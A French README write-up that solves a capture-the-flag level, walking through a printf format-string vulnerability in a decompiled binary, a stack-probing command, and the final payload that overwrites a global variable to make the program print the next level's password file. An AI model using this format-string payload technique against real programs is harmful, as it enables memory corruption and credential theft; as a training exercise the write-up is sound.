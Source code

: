 ### README - Exploitation du programme `level4`

## Introduction

Nous avons un exécutable `level4` avec les options suivantes :

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

### Code source décompilé

Voici le code source décompilé du programme `level4` :

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n(void) {
  char local_20c[520];
  
  fgets(local_20c, 0x200, stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void) {
  n();
  return;
}
```

### Analyse de la vulnérabilité

La fonction `p` utilise `printf` avec un argument utilisateur sans spécificateur de format, ce qui est vulnérable à une attaque par chaîne de format. La condition pour exécuter la commande `system` est que la variable `m` soit égale à `0x1025544`.

## Voici une explication simplifiée de ce que cela pourrait représenter :

# %16930112d : Cela est une spécification de format utilisée pour formater un entier (d pour "decimal") avec une largeur spécifique de 16930112 caractères.

# %12$n : Cela indique que le 12e argument passé à la fonction de formatage printf devrait être interprété comme une adresse. C'est une technique couramment utilisée dans les attaques de type format string, où un attaquant essaie de manipuler directement la mémoire du programme.

### Identification de la position de l'argument

Pour exploiter la vulnérabilité, nous devons trouver la position de notre chaîne injectée dans les arguments de `printf`.

1. **Utilisation d'une chaîne de format exploratoire pour afficher les valeurs sur la pile** :

   ```bash
   python -c 'print "AAAA" + " %x" * 20' | ./level4
   ```

2. **Analyse de la sortie** :

   ```
   AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
   ```

   Nous voyons `0x41414141` (qui représente "AAAA" en ASCII) à la 12ème position dans la sortie. Cela signifie que notre chaîne injectée est le 12ème argument de `printf`.



#### a. Exploitation par constructions du payload

```bash
(python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")'; cat -) | ./level4
```

### Conclusion

En utilisant cette approche, nous avons exploité la vulnérabilité de chaîne de format pour modifier la variable `m` et déclencher la condition qui exécute la commande système pour afficher le contenu de `/home/user/level5/.pass`.

### Code source décompilé pour explication

Voici à nouveau le code source décompilé pour une explication plus claire :

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n(void) {
  char local_20c[520];
  
  fgets(local_20c, 0x200, stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void) {
  n();
  return;
}
```

### Explication

- **`fgets`** : Lit l'entrée utilisateur dans un buffer.
- **`printf`** : Affiche le buffer sans spécificateur de format, rendant le programme vulnérable aux attaques de chaîne de format.
- **Condition sur `m`** : Si `m` vaut `0x1025544`, le programme exécute `system("/bin/cat /home/user/level5/.pass")`.

En utilisant la vulnérabilité de chaîne de format, nous avons écrit `0x1025544` à l'adresse de `m` pour satisfaire cette condition et obtenir le mot de passe pour le niveau suivant.
